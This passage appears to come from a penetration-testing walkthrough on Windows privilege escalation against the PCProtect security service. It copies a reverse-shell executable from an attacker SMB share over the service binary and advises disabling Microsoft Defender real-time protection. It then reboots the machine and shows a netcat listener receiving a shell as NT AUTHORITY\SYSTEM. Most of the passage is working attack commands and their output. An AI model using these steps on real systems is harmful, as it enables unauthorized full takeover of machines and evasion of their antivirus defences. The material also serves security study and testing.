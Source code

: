 Now we're gonna transfer the payload through the SMB protocol:

```powershell
copy \\192.168.119.130\share\reverse.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

> Note: Make sure to disable the Microsoft Defender Real-Time Protection or any other real time scanner.

The executable should run upon system restart, specifically when the system reaches the logon window (the screen where the user signs in). At this point, we should receive the reverse shell:

```powershell
PS C:\Users\user> shutdown /r /t 0
```

As expected we escalated our privileges from a default user to `NT AUTHORITY\SYSTEM`:

```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.119.130] from (UNKNOWN) [192.168.119.129] 49670
Microsoft Windows [Version 10.0.22000.493]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384


<SNIP>
```

# Privilege Escalation via Startup Applications
